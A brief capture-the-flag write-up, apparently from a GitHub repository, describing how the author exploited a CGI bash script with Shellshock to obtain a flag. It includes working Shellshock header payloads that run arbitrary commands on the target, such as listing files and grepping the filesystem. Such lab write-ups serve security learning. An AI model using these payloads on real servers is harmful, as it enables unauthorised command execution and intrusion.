

# Crush

* The website was static! Tried getting information from robots.txt, sitemap but 404!
* Then after reading source, I found this url http://jh2i.com:50020/cgi-bin/crush.sh  
     `Dudes, woah! This is bash, duuuudddddeeeee.`
* Then I have tried the SHELLSHOCK! and it worked!
    > ` () { :; }; echo; echo; /bin/bash -c 'ls -la'`

    

* Now we have the shell, we still need to find the flag. I have looked at Apache directories, Apache config files, CGI directory, but there was nothing. So I had to do this!
    > `() { :; }; echo; echo; /bin/bash -c 'grep -ir LS{ /'`

    

* And the flag was in the `home` directory!

    > ### LLS{woah_dude_radical_shellshock}